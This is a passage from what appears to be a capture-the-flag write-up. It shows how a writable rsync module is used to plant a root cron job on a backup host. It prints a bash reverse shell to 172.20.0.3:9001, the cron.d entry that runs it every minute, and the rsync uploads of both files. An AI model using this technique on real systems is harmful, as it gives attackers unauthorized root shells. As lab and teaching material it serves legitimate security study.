 ```bash
drwxr-xr-x          4,096 2018/07/15 17:42:38 media
drwxr-xr-x          4,096 2018/07/15 17:42:38 mnt
drwxr-xr-x          4,096 2018/07/15 17:42:38 opt
dr-xr-xr-x              0 2020/08/19 05:57:02 proc
drwxr-xr-x          4,096 2018/07/15 17:42:39 rdb
drwx------          4,096 2018/07/15 17:42:38 root
drwxr-xr-x          4,096 2020/08/19 05:57:03 run
drwxr-xr-x          4,096 2018/07/15 17:42:38 sbin
drwxr-xr-x          4,096 2018/07/15 17:42:38 srv
dr-xr-xr-x              0 2020/08/19 11:02:11 sys
drwxrwxrwt          4,096 2020/08/19 13:19:01 tmp
drwxr-xr-x          4,096 2018/07/15 17:42:39 usr
drwxr-xr-x          4,096 2018/07/15 17:42:39 var
```

Since we have a write permission, I decideded to create a cron job, so It will run automatically and I will get shell. For that We need 2 files one is reverse shell file and another one to put in `cron.d`

```bash
root@www:/tmp# echo 'bash -c "bash -i >& /dev/tcp/172.20.0.3/9001 0>&1"' > priv.sh
root@www:/tmp# cat priv.sh
cat priv.sh
bash -c "bash -i >& /dev/tcp/172.20.0.3/9001 0>&1"
root@www:/tmp# echo '* * * * * root sh /tmp/priv.sh' > priv 
echo '* * * * * root sh /tmp/priv.sh' > priv
root@www:/tmp# cat priv
cat priv
* * * * * root sh /tmp/priv.sh
```

While checking `cron.d` there is already something running.

```bash
root@www:/tmp# rsync rsync://backup:873/src/etc/cron.d/
rsync rsync://backup:873/src/etc/cron.d/
drwxr-xr-x          4,096 2020/08/19 13:27:48 .
-rw-r--r--            102 2015/06/11 10:23:47 .placeholder
-rw-r--r--             29 2018/05/04 20:57:55 clean
```

And I put those 2 files, where they belongs too. So Now the cron will run every minute and it will check for the reverse shell in the `/tmp` directory and executes it.

```bash
root@www:/tmp# rsync -a ./priv rsync://backup:873/src/etc/cron.d/
rsync -a ./priv rsync://backup:873/src/etc/cron.d/
root@www:/tmp# rsync -a ./priv.sh rsync://backup:873/src/tmp/
rsync -a ./priv.sh rsync://backup:873/src/tmp/
root@www:/tmp# rsync rsync://backup:873/src/tmp/
rsync rsync://backup:873/src/tmp/
drwxrwxrwt          4,096 2020/08/19 13:33:01 .
-rwxr-xr-x             51 2020/08/19 13:31:24 priv.sh
```
